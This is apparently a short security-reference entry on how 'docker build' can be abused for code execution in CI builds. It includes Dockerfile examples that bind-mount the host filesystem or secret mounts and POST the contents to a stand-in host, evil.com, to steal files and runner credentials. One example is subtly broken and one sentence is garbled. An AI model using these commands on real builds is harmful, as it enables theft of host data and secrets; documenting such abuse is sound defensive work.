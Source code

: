 ```yaml
---
title: docker
tags:
  - cli
  - config-file
  - eval-sh
references: 
files: [Dockerfile]
---
```


Docker is a container tool to create OCI image and run containers. The build stage can be configured using a Dockerfile. See [Dockerfile reference](https://docs.docker.com/reference/dockerfile/) and [Dockerfile overview](https://docs.docker.com/build/concepts/dockerfile/). 

## `docker build`

`docker build <path>` allow RCE in the limited context of the build:
  - if the Dockerfile can be modified, by adding `RUN <sh_cmd>`.
  - if the input of `RUN` is controllable.
Since the build command set the context to a copy of the current folder, we can't the filesystem. If we have control over the context path `docker build <controlled_path> -f <Dockerfile>`, we can exfiltrate any data from the host.


Exfiltrate every file available
```Dockerfile
FROM alpine/curl
RUN --mount=type=bind,source=/,target=/host \
    tar -czf /src.tar.gz /host/*;
RUN curl -X POST -d "/src.tar.gz" http://evil.com
```

Exflitrating runner secrets
```Dockerfile
FROM alpine/curl
ADD /home/runner/.docker/config.json config.json
RUN --mount=type=secret,id=<secret_name> \
    curl -X POST -d "@/run/secrets/<secret_name>" http://evil.com
```
